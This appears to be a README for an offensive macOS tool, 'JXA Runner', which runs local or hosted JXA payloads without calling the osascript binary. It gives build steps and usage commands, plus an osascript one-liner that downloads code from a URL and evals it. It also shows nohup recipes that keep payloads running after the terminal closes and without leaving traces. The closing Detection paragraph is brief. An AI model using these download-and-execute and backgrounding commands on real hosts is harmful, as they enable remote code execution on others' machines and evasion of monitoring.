 # JXA Runner
Swift code to programmatically execute local or hosted JXA payloads without using the on-disk osascript binary. This is helpful when you have Terminal access to a macOS host and want to launch a JXA .js payload without using on-disk osascript commands.

## Steps

1. Ensure you have Xcode installed (which will also install Swift)
2. Open the included xcodeproj file in XCode
3. In XCode: **Product** -> **Build** to build the binary
4. The compiled binary will be dropped to something like: **/Users/[username]/Library/Developer/Xcode/DerivedData/JXARunner-[random]/Build/Products/Debug/JXARunner.app**
5. cd to the Directory in #4 above and then cd to **Contents/MacOS**
6. Then you can copy the JXARunner macho binary to wherever you plan to run it and execute it

## Usage
- For programmatically executing hosted JXA payloads:

> ./JXARunner -u [url_to_jxa_payload]

**Note: This is the programmatic alternative to the command line execution of:
*osascript -l JavaScript -e "eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('[url_path]')),$.NSUTF8StringEncoding)));"*

- For programmatically executing local JXA payloads:

> ./JXARunner -f [local_path_to_payload]

**Note: This is the programmatic alternative to the command line execution of:
*osascript -l JavaScvript -e "eval(ObjC.unwrap($.NSString.stringWithContentsOfFile('[filePath]')));"*
## Notes
In its current form, this script does **NOT** background the JXA payload. So you will need to take care of that manually at execution time. Some options for doing so are below:

- If you want the launched JXA payload to continue even after the Terminal you are using is closed, you can run JXA Runner in this manner (note: this will cause a nohup.out file to be dropped to the current directory or to the home directory):

> nohup ./JXARunner -u [url_to_jxa_payload]

- If you want the launched JXA payload to continue after the Terminal is closed and you do not want to create the nohup.out file, you can run JXA runner in the following manner:

> nohup ./JXARunner -u [url_to_jxa_payload] > /dev/null 2>&1&

- If you simply want to spawn JXA Runner backgrounded you can run it in this manner (however, if the Terminal window is closed the JXA payload will stop running):

> ./JXARunner -u [url_to_jxa_payload] &

## Detection
If **nohup** is being used to cause the executed payload to live beyond the Terminal, searching for nohup command line executions would return this activity (and may be a good idea in general to see what else in an environment is running commands with nohup). However, this will likely return lots of results and will need to be added with other indicators to find this activity.
